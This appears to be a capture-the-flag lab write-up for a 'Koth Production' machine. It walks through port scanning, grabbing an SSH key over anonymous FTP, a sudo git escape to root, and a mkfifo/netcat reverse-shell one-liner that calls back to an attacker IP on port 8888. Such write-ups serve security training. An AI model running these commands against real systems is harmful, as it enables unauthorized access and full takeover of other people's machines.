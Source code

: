 # Koth Production

---------------------
## IP: `10.10.224.175`

---------------------
##### Let's search for Open Ports via Nmap: <br />

`nmap -sC -sV -oN nmap/initial 10.10.224.175`<br />

```
21
22
139
445
9001
9002
```

![image](images/nmap.png)

----------------------
##### We can see `anonymous` login enabled for `ftp`: <br />

> Let's login then (:<br />

![image](images/ftp.png)


We get id-rsa of a user, if we get the public key too, and cat that out we can see the id_rsa was of user `ashu`<br />

-----------------------
##### Login via user `Ashu`:<br />

First you need to give the id_rsa read,write permissions using<br />

`chmod 600 id_rsa`

Let's login-<br />

`ssh -i id_rsa ashu@10.10.224.175`

-------------------------
##### Getting root via user `ashu`:<br />

>Let's check for sudo abilities for ashu<br />

`sudo -l`<br />

![image](images/ashu.png)


We see, we can just directly switch to user `skidy` with sudo-<br />

`sudo su skidy`<br />

![image](images/skidy.png)

YAY!<br />

Now, before priv-esc, if we try to look into the home directory of user `skidy`, we will find a<br /> directory named `homework`, and in there there's a python script `server1.py`, if you cat that<br />
you'll find the password you need to enter to access the backdoor on port `9001`<br />

![image](images/python.png)

Let's check for the sudo abilities of user `skidy`:<br />

![image](images/skidysudo.png)

```
We see /usr/bin/git there, let's check its gtfo-bins page
```
[GTFO-BINS](https://gtfobins.github.io/gtfobins/git/)

![image](images/gtfo.png)

> After doing-<br />

`sudo git -p help config`<br />

we can type `!/bin/bash` to get root<br />

![image](images/git.png)

------------------------
##### Getting Root via port `9001, 9002`:<br />

```
nc 10.10.224.175 9001
```

> It is a backdoor for user ashu...

put the pass we found in the python script in the home directory of user skidy `y......!`<br />

![image](images/nc9001.png)

> On port 9001, do-<br />

`echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.66 8888 >/tmp/f" > /tmp/a; chmod +x /tmp/a`<br />

![image](images/echo.png)

Now, let's use port `9002` to get a rev-shell on the port we put above-<br />

```
nc 10.10.224.175 9002
```

to get a rev-shell on port `8888`, start a netcat listener on your machine<br />

`nc -lnvp 8888`<br />

NOW on port 9002, run the command-<br />

```
/tmp/./a
```

> Yep, we got our shell as root (:<br />

![image](images/netcat.png)

-------------------
Thanks For Reading <3